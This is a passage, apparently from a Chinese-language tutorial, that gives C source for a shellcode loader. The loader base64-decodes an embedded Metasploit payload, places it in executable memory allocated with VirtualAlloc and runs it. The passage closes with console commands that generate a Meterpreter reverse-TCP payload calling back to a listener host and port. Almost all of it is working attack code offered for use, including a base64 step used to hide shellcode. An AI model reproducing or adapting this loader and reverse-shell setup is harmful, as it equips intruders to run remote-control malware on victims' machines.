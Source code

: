 ```c
            *p++ = basis_64[((string[i] & 0x3) << 4) |
                ((int)(string[i + 1] & 0xF0) >> 4)];
            *p++ = basis_64[((string[i + 1] & 0xF) << 2)];
        }
        //*p++ = '=';
    }

    *p++ = '\0';
    return p - encoded;
}
```

`base64.h`文件内容：

```c
#ifndef _BASE64_H_
#define _BASE64_H_

#ifdef __cplusplus
extern "C" {
#endif

    int Base64encode_len(int len);
    int Base64encode(char * coded_dst, const char *plain_src, int len_plain_src);

    int Base64decode_len(const char * coded_src);
    int Base64decode(char * plain_dst, const char *coded_src);

#ifdef __cplusplus
}
#endif

#endif //_BASE64_H_
```

`shellcode.c`文件内容：

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code here";

// 原po代码报错，这里做了一些强制转换和类型修正
int main(int argc, const char* argv[]) {


    char str1[1000] = { 0 };
    Base64decode(str1, (char*)buf);
    LPVOID Memory;
    Memory = VirtualAlloc(NULL, sizeof(str1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, str1, sizeof(str1));
    ((void(*)())Memory)();
    return 0;
}
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate